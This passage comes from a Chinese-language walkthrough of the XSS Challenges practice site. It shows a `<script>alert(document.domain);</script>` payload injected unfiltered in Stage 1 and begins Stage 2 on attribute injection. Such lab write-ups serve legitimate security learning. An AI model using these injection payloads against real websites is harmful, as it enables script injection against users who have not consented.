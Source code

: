 查看源码

```
<b>"hello"</b>
```

**判断能否执行 javascript 代码**

设置 `p1=<script>alert(document.domain);</script>`，提交代码

```
<script>alert(document.domain);</script>
```

![提交代码](./../../../../images/XSS%20Challenges/%E6%8F%90%E4%BA%A4%E4%BB%A3%E7%A0%81.png)

查看源码

```
<b>"<script>alert(document.domain);</script>"</b>
```

> 发现插入到 \<b> \</b> 标签中，说明插入成功，且未过滤

### 1.1.2 Stage #2 属性中的 XSS 注入

>https://xss-quiz.int21h.jp/stage2.php

**查看可控参数**

查看交互栏源码

```
<input type="text" name="p1" size="60" value="">
```

**查找页面的回显**

在交互栏输入 hello

![在交互栏输入 hello](./../../../../images/XSS%20Challenges/%E5%9C%A8%E4%BA%A4%E4%BA%92%E6%A0%8F%E8%BE%93%E5%85%A5%20hello.png)
